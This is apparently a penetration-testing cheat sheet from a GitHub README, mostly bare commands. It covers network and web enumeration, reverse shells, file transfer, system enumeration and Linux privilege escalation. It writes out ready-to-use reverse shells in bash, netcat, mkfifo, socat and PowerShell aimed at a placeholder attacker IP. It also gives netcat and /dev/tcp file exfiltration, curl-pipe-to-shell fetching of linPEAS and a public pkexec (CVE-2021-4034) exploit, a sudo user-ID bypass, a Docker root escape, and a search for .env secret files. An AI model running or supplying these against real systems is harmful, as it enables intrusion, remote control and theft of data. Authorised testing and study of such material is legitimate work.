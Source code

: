 # CHEATSHEET
<br/>
## NETWORK ENUMERATION

### HOST DISCOVERY
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```

### TCP OPEN PORTS
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```

### INFO & VERSION
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```

### HTTP ENUMERATION
Enumerate common directories and files with nmap
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```
Gobuster
```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```



## REVERSE SHELLS

### BASH
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

### NETCAT
```bash
nc -e /bin/bash <IP> <PORT>
```

### MKFIFO
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

### SOCAT
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### POWERSHELL
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### INTERACTIVE TTY
```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```



## SHARE AND DOWNLOAD

### HTTP SERVER
```bash
# Python3
python3 -m http.server <PORT>

# Python2
python -m SimpleHTTPServer <PORT>

# PHP
php -S 0.0.0.0:<PORT>
```

### SMB 
```bash
smbserver.py <NAME> $(pwd) -smb2support
```

### FILE TRANSFER ( NETCAT - BASH ) 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```

### DOWNLOAD 
#### Powershell
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

####Cmd
```shell
certutil -urlcache -split -f <URL> <PATH>
```

#### Bash
```bash
wget "http://<IP>/"
```



## SYSTEM ENUMERATION

### Enviroment Variables
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```

### Find SUID on GUID files
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```

### Check capabilities
```bash
getcap -r / 2>/dev/null
```

### Open local ports
```bash
ss -nltp
```

### Cron Jobs
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

### Monitoring processes
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

### Scripts with write permissions
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```

### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



## PRIVILEGE ESCALATION

### Sudo
```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```

### Polkit - (CVE-2021-4034)
```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```

### Docker
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

